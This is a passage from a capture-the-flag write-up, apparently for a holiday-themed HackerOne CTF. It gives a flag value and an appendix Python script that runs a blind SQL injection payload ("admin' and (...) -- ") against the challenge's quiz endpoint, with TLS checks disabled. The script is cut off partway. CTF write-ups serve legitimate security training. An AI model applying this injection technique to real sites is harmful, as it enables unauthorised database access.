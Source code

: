 {F1138794}

And that is it! We have successfully infiltrated the Grinchs network and taken down his attack server and saved the holidays.

Flag 12 is: `flag{ba6586b0-e482-41e6-9a68-caf9941b48a0}`

* * * 
# Appendix

## flag9-solver.py
```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import sys
import string
from bs4 import BeautifulSoup

headers = {
    "User-Agent": "<marquee>Hackerman-script</marquee>",
    "Content-type": "application/x-www-form-urlencoded"
}

charset = string.ascii_lowercase + string.digits + string.ascii_uppercase 
base_url = "https://hackyholidays.h1ctf.com/evil-quiz"

bf_list = string.ascii_uppercase + string.ascii_lowercase + string.digits + string.punctuation

if len(sys.argv) != 1:
    print("(-) Usage: {} ".format(sys.argv[0]))
    sys.exit(1)

cookies=dict()

def get_session():
    response = requests.get(base_url, headers=headers, allow_redirects=False)
    return response.cookies['session']

def initiate_session():
    sessionid = get_session()
    global cookies
    cookies=dict(session=sessionid + ";")
    requests.post(base_url, data={"name":"test"}, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
    quiz_data = {
        "ques_1": "0",
        "ques_2": "0",
        "ques_3": "0"
    }
    requests.post(base_url + "/start", data=quiz_data, headers=headers, cookies=cookies, allow_redirects=False, verify=False)


def check_condition(condition):
    payload = "admin' and ({}) -- ".format(condition)

    data={
        "name": payload
    }

    requests.post(base_url + "/", data=data, headers=headers, verify=False, allow_redirects=False, cookies=cookies)

```
